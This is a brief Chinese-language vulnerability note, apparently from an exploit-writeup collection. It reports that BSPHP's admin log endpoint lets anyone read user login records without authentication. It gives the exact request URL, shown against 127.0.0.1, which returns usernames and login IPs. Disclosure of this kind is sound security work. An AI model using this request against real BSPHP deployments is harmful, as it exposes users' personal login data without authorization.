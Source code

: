 # BSPHP存在未授权访问

该处泄漏的⽤户名和用户登陆 IP

URL格式如下：

```
http://127.0.0.1/admin/index.php?m=admin&c=log&a=table_json&json=get&soso_ok=1&t=user_login_log&page=1&limit=10&
```

直接进行访问即可获得如下数据

![](./BSPHP存在未授权访问/wp_editor_md_90752b3880f4de0612a22c38542748d8.jpg)